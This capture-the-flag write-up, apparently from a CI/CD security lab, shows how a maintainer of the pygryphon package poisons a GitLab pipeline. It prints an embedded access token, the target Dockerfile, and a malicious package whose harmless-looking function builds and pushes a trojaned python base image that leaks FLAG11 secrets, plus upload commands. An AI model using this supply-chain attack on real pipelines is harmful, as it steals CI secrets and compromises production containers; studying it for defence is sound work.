 Let's explore what we have when signing in to the compromised GitLab:
You are the maintainer of *pygryphon* package, there are also public projects *nest-of-gold* and *awesome-app* which we have a read-only access.
<BR><BR>
As the instructions of this challenge hint us, let's try to see if we can find any reference to *Flag11*.
  <BR>
A simple search tells us it is being referenced by *nest-of-gold* project 
  <BR><BR><BR>

![grpyhon](../images/gryphon-1.png "grpyhon")

  <BR><BR><BR>
We can see that *Flag11* is used in a pipeline that ships a container used in production.
Let's go to this pipeline scheduling, we can see that user named "gryphon" is the owner of this pipeline, and this user is also the owner of the *awesome-app* project's pipeline.
  
Diving into *awesome-app*, it is using our pygrphon package as a dependency!  
this is what the *requirments.txt* file looks like:
  
 <pre><code>
 
 --extra-index-url http://token:cd79dd622c6d463a574635e874765c0b@gitlab/api/v4/projects/pygryphon%2Fpygryphon/packages/pypi/simple --trusted-host gitlab

pytest==7.2.0
flask==2.0.3
Werkzeug==2.0.3
pygryphon==1.0.13
 
</code></pre> 
  <BR><BR><BR>

This means we can influence *awesome-app* pipeline by uploading a new malicious python package of *pygrphon*.
Our end goal is within *nest-of-gold* project, how can we influence it's pipeline?
  
GitLab has a special setting whether or not a pipeline "CI_JOB_TOKEN" is limited to the specific project or have access to other projects under the same user.
This mean if this setting is disabled, we will be able to interact with *nest-of-gold* project.
<BR><BR><BR>


![grpyhon2](../images/gryphon-2.png "grpyhon2")  
<BR><BR><BR>

  
Because our end goal is to reach the "production" docker produced by *nest-of-gold* pipeline, let's have a look at the Dockerfile inside *nest-of-gold* we can see it is dependent on python:3.8 docker image from nest-of-gold container registry and not the offical registrar.
  
   <pre><code>
 
FROM gitlab:5050/wonderland/nest-of-gold/python:3.8

WORKDIR /app
COPY app.py .
COPY requirements.txt .
RUN pip3 install -r requirements.txt

CMD [ "python3", "-m" , "flask", "run", "--host=0.0.0.0"]

 
</code></pre> 
  
Here's comes the tricky part 🥸, let's create a malicious pygryphon package that pushes a malicious python3.8 docker base image to *nest-of-gold* container registry, we are able to do so because the "CI_JOB_TOKEN" is not limited to *awesome-app* project.
In this package let's create a script named "python3" that the docker image of *nest-of-gold* will execute mistakenly instead of the actual python3 interpreter.   
pygryphon package content:
  
 <pre><code>
   import subprocess

DOCKERFILE = """FROM python:3.8
COPY python3 /usr/local/bin/
COPY python3 /usr/local/bin/pip3"""
PYTHON3 = """#!/bin/bash
env | grep FLAG11 || true"""


def run(cmd):
    proc = subprocess.run(cmd, shell=True, timeout=180)
    print(proc.stdout)
    print(proc.stderr)


def hello(name):
    """
    This function greets to
    the person passed in as
    a parameter
    """
    run('apk add docker-cli')
    with open('Dockerfile', 'w') as f:
        f.write(DOCKERFILE)
    with open('python3', 'w') as f:
        f.write(PYTHON3)
    run('chmod +x python3')
    run('DOCKER_HOST=tcp://docker:2375 docker build -t gitlab:5050/wonderland/nest-of-gold/python:3.8 .')
    run('DOCKER_HOST=tcp://docker:2375 docker login -u gryphon -p $TOKEN $CI_REGISTRY')
    run('DOCKER_HOST=tcp://docker:2375 docker push gitlab:5050/wonderland/nest-of-gold/python:3.8')
    return "Hello, " + name

 </code></pre> 
  
And then build and upload this package to gryphon package registry (after we have configured "gitlab" as our a package registry 
  
   <pre><code>
   pipenv run python3 -m build [path_to_package]
   pipenv run python3 -m twine upload -r gitlab
 </code></pre> 

